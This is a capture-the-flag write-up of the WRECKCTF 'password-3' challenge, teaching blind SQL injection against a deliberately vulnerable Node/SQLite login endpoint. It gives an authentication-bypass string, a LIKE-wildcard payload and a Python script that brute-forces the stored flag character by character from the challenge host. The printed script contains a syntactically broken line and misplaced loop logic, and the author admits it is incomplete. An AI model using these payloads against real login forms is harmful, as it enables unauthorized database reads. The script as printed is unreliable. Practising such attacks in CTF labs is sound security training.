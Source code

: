 ```yaml
---
layout: post
current: post
cover:  False
navigation: True
title: "password-3"
date: 2022-11-03 10:00:00
tags: [WRECKCTF]
class: post-template
subclass: 'post'
author: ZeroDayTea
---
```


A quick but interesting proof-of-concept demonstrating that security by obscurity does not and will never work. Even if you don't show reflected feedback from SQL commands, your database is still not safe. 

## The Challenge

We are presented with a standard login page looking mighty submissive and pwnable and containing only a single password field. Let's take a look at the server-side code:
```js
const crypto = require('crypto')
const database = require('better-sqlite3')
const express = require('express')
const app = express()

FLAG = process.env.FLAG ?? 'flag{testflag}'
const db = new database(':memory:')
const id = () => crypto.randomBytes(16).toString('hex')

app.use(express.static('public'))
app.use(express.json())

app.post('/password', (req, res) => {
    const password = (req.body.password ?? '').toString()
    const result = db.prepare(
        `SELECT password FROM passwords WHERE password='${password}';`
    ).get()

    if (result) res.json({
        success: true,
        message: (
            'Congrats on logging in! However, that\'s not enough... can you ' +
            'find the flag in the database this time?'
        ),
    })
    else res.json({ success: false })
})

db.exec(`
    CREATE TABLE passwords (
        password TEXT
    );

    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${FLAG}');
`)

  

app.listen(3000)
```

And here's what the JavaScript looks like on the frontend:
```js
form.addEventListener('submit', async (event) => {
	event.preventDefault();
	const input = document.querySelector('input[type="text"]');
	const response = await fetch('/password', {
	  method: 'POST',
	  headers: { 'content-type': 'application/json' },
	  body: JSON.stringify({ password: input.value }),

	})

	const result = await response.json()
	if (result.success) {
	  const content = document.querySelector('.content')
	  content.textContent = result.message;
	} else {
	  input.removeAttribute('style');
	  input.offsetWidth;
	  input.style.animation = 'shake 0.25s';
	}
  });
```

We can see that after clicking the `Login` button, our password field data will be sent over to the server endpoint `/password` and processed using the SQL select string 

```SQL
SELECT password FROM passwords WHERE password='${password}';
```

Trying the standard authentication bypass string `admin' OR '1'='1';--` and logging in we are able to see the message 
 `Congrats on logging in! However, that's not enough... can you find the flag in the database this time?`

Looking more closely at the provided source code, we see:
```js
FLAG = process.env.FLAG ?? 'flag{testflag}'
...
db.exec(`
    CREATE TABLE passwords (
        password TEXT
    );

  

    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${FLAG}');
`)
```

The flag we are looking for is loaded in from an environment variable as is standard and INSERTed into the sqlite3 database. With seemingly no feedback from our SQL injections, however, we'll have to think of a more creative way to leak the passwords table in the database!

## Thinking About The Problem and SQL
One piece of feedback we do get is whether or not our SQL injection string did in fact run successfully and match something in the database or not. If we could somehow send a SQL injection that would return true if our input was similar to or LIKE one of the actual passwords in the database, we could bruteforce the password character by character.

Thankfully, SQL has the aptly named `LIKE` operator that does just this. We can use the LIKE operator in conjunction with the `%` wildcard character to match the flag in the database character by character, with the server returning a valid logged-in `true` response only if our guess is similar to the flag in the `passwords` table.

Our exploit string should look something along the lines of `' OR password LIKE '[guess]%` utilizing the previously selected `password` variable in the first half of the statement as well as the already provided ending single quote `'`; at the end of the statement.

## The Exploit
Here's a quick bruteforce script to run this exploit iteratively on the `/password` endpoint:

```python
import requests 

possibilities = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#Z^&*()" 

#flag = flag{whee_binary_search_sqli}
flag = "flag{"
url = "https://password-3.challs.wreckctf.com/password" 
payload = "" 

while True: 
    for char in possibilities: 
        print("Trying: " + flag + payload + char) 
        password = f"' OR password LIKE '{flag + payload + char}%" 
        print(password) 
        r = requests.post(url, json={"password": password}) 
        print(r.text) 
        if r.text.find("Congrats") != -1: 
            payload += char if payload[-1] == "}": 
            exit() 
        break
```

This implementation isn't entirely complete as it breaks at the last character and I had to manually add the ending curly brace `}` for the flag, but it nonetheless iterates through all the previous characters and gets the necessary part of the flag.

## Challenge Analysis
This was a quick and simple challenge, but quite an interesting one that highlights a key issue in many developers' intuition. Just because a hacker can't see the output of your SQL commands and other backend maneuvers does not necessarily mean they won't be able to expose sensitive information from the backend.

The challenge provided us with the source code for the server, making it almost immediately apparent what had to be done. However, even without source code, this kind of a vulnerability would be easy to catch given a form submission on any website or API running on a SQL database backend. It could also easily be *escalated* to read data from other tables on the database if not secured properly, leading to much larger-scale data leaks than a single flag in a single table.